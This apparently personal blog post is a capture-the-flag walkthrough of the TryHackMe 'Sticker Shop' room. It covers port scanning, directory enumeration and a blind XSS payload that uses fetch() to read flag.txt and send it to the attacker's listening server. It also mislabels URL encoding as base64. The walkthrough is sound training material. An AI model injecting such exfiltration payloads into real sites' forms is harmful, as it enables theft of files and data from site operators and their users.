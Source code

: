 ```yaml
---
title: "The Sticker Shop"
date: 2024-12-1 12:00:00 +0000
categories: [CTF, Tryhackme]
tags: [Writeup, Cybersecurity, Tryhackme]
pin: true
---
```


![Screenshot](/assets/img/stickers-shop/0.png)

Can you exploit the sticker shop in order to capture the flag?

**The sticker shop is finally online!**

Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

Can you read the flag at `http://your-target-ipaddress:8080/flag.txt`?

![Screenshot](/assets/img/stickers-shop/1.png)

let's scan our target first to take a look at the open ports..

```bash
nmap -sV -p- 10.10.199.200
```

![Screenshot](/assets/img/stickers-shop/6.png)

just the 8080 port

and let's check if there any hints in the header using `curl` tool :

```bash
curl -I http://10.10.199.200:8080/flag.txt
```

![Screenshot](/assets/img/stickers-shop/2.png)

The response indicates that the server is using Werkzeug (a Python-based web framework) and is returning a 401 Unauthorized status.

there is our target :

![Screenshot](/assets/img/stickers-shop/4.png)

we have two links in the nav bar let's check them..

the Home page is normal and doesn't look like it has anything interesting..

so, let's check the feedback page..!

![Screenshot](/assets/img/stickers-shop/5.png)

The page allows users to enter feedback, and after some testing, I found that this page is vulnerable to Blind XSS.

If we tried to access the `http://your-target-ipaddress:8080/flag.txt` directly we will get this message -> **401 Unauthorized**

I made a subdomain enumeration to see if there any hidden paths  using `gobuster` tool..

```bash
gobuster dir -u http://your-target-ipaddress:8080/ -w /usr/share/wordlists/dirb/common.txt
```

but I found nothing except the /flag.txt that we already know it.

![Screenshot](/assets/img/stickers-shop/3.png)

So as a penetration tester who has studied the XSS Types..I know that the blind XSS Type won't give you or won't show you the response directly like the Normal XSS,
So what am gonna do right now is..

**1. Setting Up a Local Server:**

```bash
python3 -m http.server 8000
```

To capture data exfiltrated through Blind XSS, start a simple HTTP server on our local machine:

This will run a web server on port 8000 and allow us to receive HTTP requests containing the exfiltrated flag.

**2. Crafting the Payload:**
I crafted a Blind XSS payload that reads the contents of flag.txt on the server and sends it to My local server:

```js
"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```

**Explanation:**

The payload triggers a fetch() request to retrieve the contents of flag.txt from the server.
Once fetched, it exfiltrates the data by sending a new request to our local server `(<our-IP-ADDRESS>:8000)`, appending the flag as a query parameter.

**3. Executing the Exploit:**
Submit the payload in the feedback form at `http://our-target-ipaddress:8080/submit_feedback`.
Monitor your local server’s terminal output for an incoming request containing the flag in the URL.

Let's do it..

![Screenshot](/assets/img/stickers-shop/7.png)

here is the payload..

then we will set up the local server..

![Screenshot](/assets/img/stickers-shop/8.png)

and let's post our payload in the submit form..!

![Screenshot](/assets/img/stickers-shop/9.png)

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.247.239 - - [01/Dec/2024 22:30:35] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```

so there is the flag :

```c
flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D
```

but it's base 64 encoded, so let's use our terminal to decode it using this command:

```bash
echo "THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D" | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read().strip()))"

THM{83789a69074f636f64a38879cfcabe8b62305ee6}
```

and finally we've got the flag !

![Screenshot](/assets/img/stickers-shop/11.png)

and guess what!

![Screenshot](/assets/img/stickers-shop/10.png)

yea bro we did it, see u in the next writeup `:)`











